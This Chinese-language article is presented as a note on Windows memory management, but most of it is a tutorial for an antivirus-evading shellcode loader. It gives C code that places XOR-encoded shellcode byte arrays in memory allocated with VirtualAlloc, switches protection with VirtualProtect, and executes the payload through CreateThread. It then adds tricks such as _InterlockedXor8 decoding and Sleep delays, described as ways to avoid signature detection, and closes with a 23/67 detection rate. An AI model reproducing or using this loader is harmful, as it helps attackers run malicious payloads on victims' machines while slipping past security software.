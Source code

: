 # Windows平台下的内存管理

## 1.Windows平台下主要的内存管理途径

![截图](15215d9ce8b541459cc45a84f2a83918.png)

## 2.调用关系

![截图](5bbdcf151aaea2586d3a200938b65171.png)

第一层：Win32 API作为系统的接口，提供了一组操作虚拟内存的接口；

第二层：Heap作为虚拟内存的一部分，Win32 API又提供了一组操作Heap内存的接口，但是这些接口是建立在操作虚拟内存的接口的基础上。

第三层：Windows平台下的C Run-Time Library 又利用Heap API来实现malloc和free。

由此我们可以看出，这些动态内存操作方式之间存有单一的层次关系，位于这个层次的最低层的是Virtual Memory API，可以说这些方式都是建立在Virtual Memory API的基础上。

调用关系如下表所示为 : new -> malloc -> HeapAlloc -> VirtualAlloc -> 驱动程序的_PageAlloc

# Windows内存操作

Windows操作系统的内存有三种属性，分别为：可读、可写、可执行，并且操作系统将每个进程的内存都隔离开来，当进程运行时，创建一个虚拟的内存空间，系统的内存管理器将虚拟内存空间映射到物理内存上，所以每个进程的内存都是等大的。

在进程申请时，需要声明这块内存的基本信息：申请内存大小、申请内存起始内存基址、申请内存属性、申请内存对外的权限等。

申请方式：

- HeapAlloc
- malloc
- VirtualAlloc
- new
- LocalAlloc

其实以上所有的内存申请方式都与VirtualAlloc有关，因为VirtualAlloc申请的单位是“页”。而Windows操作系统管理内存的单位也是“页”。

```c_cpp
#include <Windows.h>

// 入口函数
int wmain(int argc, TCHAR* argv[]) {

    int shellcode_size = 0; // shellcode长度
    DWORD dwThreadId; // 线程ID
    HANDLE hThread; // 线程句柄
/* length: 800 bytes */
    unsigned char buf[] = "\xf6\xe2\x88\xa\xa\xa\x6a\x83\xef\x3b\xca\x6e\x81\x5a\x3a\x81\x58\x6\x81\x58\x1e\x81\x78\x22\x5\xbd\x40\x2c\x3b\xf5\xa6\x36\x6b\x76\x8\x26\x2a\xcb\xc5\x7\xb\xcd\xe8\xf8\x58\x5d\x81\x58\x1a\x81\x40\x36\x81\x46\x1b\x72\xe9\x42\xb\xdb\x5b\x81\x53\x2a\xb\xd9\x81\x43\x12\xe9\x30\x43\x81\x3e\x81\xb\xdc\x3b\xf5\xa6\xcb\xc5\x7\xb\xcd\x32\xea\x7f\xfc\x9\x77\xf2\x31\x77\x2e\x7f\xee\x52\x81\x52\x2e\xb\xd9\x6c\x81\x6\x41\x81\x52\x16\xb\xd9\x81\xe\x81\xb\xda\x83\x4e\x2e\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x55\x55\x50\x81\x18\xe1\x87\x57\x60\xb\x87\x8f\xb8\xa\xa\xa\x5a\x62\x3b\x81\x65\x8d\xf5\xdf\xb1\xfa\xbf\xa8\x5c\x62\xac\x9f\xb7\x97\xf5\xdf\x36\xc\x76\x0\x8a\xf1\xea\x7f\xf\xb1\x4d\x19\x78\x65\x60\xa\x59\xf5\xdf\x69\x6b\x66\x69\x24\x6f\x72\x6f\xa\xa";
    int shellcodesize = sizeof(buf);
        // 获取shellcode大小

    /*
VirtualAlloc函数，在调用进程的虚拟地址空间中保留、提交或更改页面区域的状态。
    VirtualAlloc(
        NULL, // 基址
        800,  // 大小
        MEM_COMMIT, // 内存页状态
        PAGE_EXECUTE_READWRITE // 可读可写可执行
        );
如果函数成功，则返回值是分配的页面区域的基地址。
如果函数失败，则返回值为NULL。要获取扩展的错误信息，请调用GetLastError。
    */
    char* shellcode = (char*)VirtualAlloc(
        NULL,
        shellcode_size,
        MEM_COMMIT,
        PAGE_EXECUTE_READWRITE
    );
    // 将shellcode复制到可执行的内存页中
    //CopyMemory将一块内存从一个位置复制到另一个位置。可能会造成缓冲区溢出
    /*
void CopyMemory(
  _In_       PVOID  指向复制块目标起始地址的指针,
  _In_ const VOID   指向要复制的内存块的起始地址的指针,
  _In_       SIZE_T 长度，
);
    */
    CopyMemory(shellcode, buf, shellcode_size);
//CreateThread函数，创建线程
    hThread = CreateThread(
        NULL, // 安全描述符
        NULL, // 栈的大小
        (LPTHREAD_START_ROUTINE)shellcode, // 函数
        NULL, // 参数
        NULL, // 线程标志
        &dwThreadId // 若成功，接收新创建的线程的线程ID DWORD变量的地址。
    );
    //通过调用 WaitForSingleObject 函数来监视事件状态,当事件设置为终止状态（WaitForSingleObject 返回 WAIT_OBJECT_0）时，每个线程都将自行终止执行。
    WaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
    return 0;
}
```

## 内存申请优化

申请内存页时，可以在Shellcode读入时，申请一个普通的可读写的内存页，然后再通过**VirtualProtect**改变它的属性 -> 可执行。这样也能规避掉一些特征查杀。

```c_cpp
int wmain(int argc, TCHAR* argv[]) {
	int shellcode_size = 0; //shellcode长度
	DWORD dwThreadId;	//线程Id
	HANDLE hThread;		//线程句柄
	DWORD dwOldProtect;	//内存页属性

	unsigned char buf[] = "";
	shellcode_size = sizeof(buf);
	for (int i = 0; i < shellcode_size; i++)
	{
		buf[i] ^= 10;
	}

	char* shellcode = (char*)VirtualAlloc(
		NULL,
		shellcode_size,
		MEM_COMMIT,
		PAGE_READWRITE  //只申请可读可写
		);
	CopyMemory(shellcode, buf, shellcode_size); //将shellcode复制到可读可写的内存中
    //VirtualProtect 的 Win32 实现将更改对调用进程的虚拟地址空间中已提交页面区域的保护。
    /*
    HRESULT VirtualProtect (
    [in]  void*   lpAddress,//一个指针，指向要更保护属性的虚拟内存的基址
    [in]  SIZE_T  dwSize,//要更改的内存页面区域的大小（以字节为单位）。
    [in]  DWORD   flNewProtect, //要应用的内存保护的类型。
    [out] DWORD*  pflOldProtect //一个指针，该指针指向前一个内存保护值。
);
    */
	VirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect); //更改属性为可执行
		hThread = CreateThread(
			NULL, // 安全描述符
			NULL, // 栈的大小
			(LPTHREAD_START_ROUTINE)shellcode, // 函数
			NULL, // 参数
			NULL, // 线程标志
			&dwThreadId // 线程ID
		);

		WaitForSingleObject(hThread, INFINITE);
		return 0;

}
```

## 异或方式优化

通常，我们使用循环去进行异或运算，会使用到异或运算符，这里是较为敏感的操作。InterlockedXorRelease函数可以用于两个值的异或运算，最重要的一点就是，它的操作是原子的，也就是可以达到线程同步。

```c_cpp
char buf[] = "\x4d\x59\x3e\xb1\xb1\xb1\xd1\x80\x63\x38\x54\xd5\x3a\xe3\x81\x3a\xe3\xbd\x3a\xe3\xa5\x3a\xc3\x99\x80\x4e\xbe\x6\xfb\x97\x80\x71\x1d\x8d\xd0\xcd\xb3\x9d\x91\x70\x7e\xbc\xb0\x76\xf8\xc4\x5e\xe3\x3a\xe3\xa1\xe6\x95\xbe\x34\xc1\x4e\x4e\x4e\x58\x2a\x4e\x4e\x4e\xb0\x72\x98\x77\xc4\x70\x72\xa\x41\x4\x13\xe7\xdb\xb1\xe2\x4e\x64\xb1";
shellcode_size = sizeof(buf);
for (int i = 0; i < shellcode_size; i++)
{
	Sleep(1);
	_InterlockedXor8(buf+i, 177);
}
```

完整代码

```c_cpp
#include<Windows.h>
int wmain(int argc, TCHAR* argv[]) {
	int shellcode_size = 0;
	DWORD dwThreadId; //线程id
	HANDLE hThread;//线程句柄
	DWORD dwOldProtect; //内存页属性
	
	char buf[] = "\x66\x72\x18\x9a\x9a\x9a\xfa\x13\x7f\xab\x5a\xfe\x11\xca\xaa\x11\xc8\x96\x11\xc8\x8e\x11\xe8\xb2\x95\x2d\xd0\xbc\xab\x65\x36\xa6\xfb\xe6\x98\xb6\xba\x5b\x55\x97\x9b\x5d\x78\x68\xc8\xcd\x11\xc8\x8a\x11\xd0\xa6\x11\xd6\x8b\xe2\x79\xd2\x9b\x4b\xcb\x11\xc3\xba\x9b\x49\x11\xd3\x82\x79\xa0\xd3\x11\xae\x11\x9b\x4c\xab\x65\x36\x5b\x55\x97\x9b\x5d\xa2\x7a\xef\x6c\x99\xe7\x62\xa1\xe7\xbe\xef\x7e\xc2\x11\xc2\xbe\x9b\x49\xfc\x11\x96\xd1\x11\xc2\x86\x9b\x49\x11\x9e\x11\x9b\x4a\x13\xde\xbe\xbe\xc1\xc1\xfb\xc3\xc0\xcb\x65\x7a\xc5\xc5\xc0\x11\x88\x71\x17\xc7\xf0\x9b\x17\x1f\x28\x9a\x9a\x9a\xca\xf2\xab\x11\xf5\x1d\x65\x4f\x21\x6a\x2f\x38\xcc\xf2\x3c\xf\x27\x7\x65\x4f\xa6\x9c\xe6\x90\x1a\x61\x7a\xef\x9f\x21\xdd\x89\xe8\xf5\xf0\x9a\xc9\x65\x4f\xf9\xfb\xf6\xf9\xb4\xff\xe2\xff\x9a\x9a";
	shellcode_size = sizeof(buf);
	for (int i = 0; i < shellcode_size; i++)
	{
		_InterlockedXor8(buf + i, 7834);
	}
	char* shellcode = (char*)VirtualAlloc(
		NULL,//基址
		shellcode_size,  //大小
		MEM_COMMIT, //内存页状态
		PAGE_READWRITE //可读可写可执行
	);

	CopyMemory(shellcode, buf, shellcode_size);
	VirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);
	Sleep(2000);
	hThread = CreateThread(
		NULL, // 安全描述符
		NULL, // 栈的大小
		(LPTHREAD_START_ROUTINE)shellcode, // 函数
		NULL, // 参数
		NULL, // 线程标志
		&dwThreadId // 线程ID
	);
	WaitForSingleObject(hThread, INFINITE);
	return 0;
}
```

相比直接申请内存执行，免杀效果好了一些。但远不能让人满意，将shellcode置空，直接对加载器进行查杀，查杀率为23/67，**C++申请内存执行的特征太明显**。

![截图](8114f9240cfd3a543dd66fcc770c96dc.png)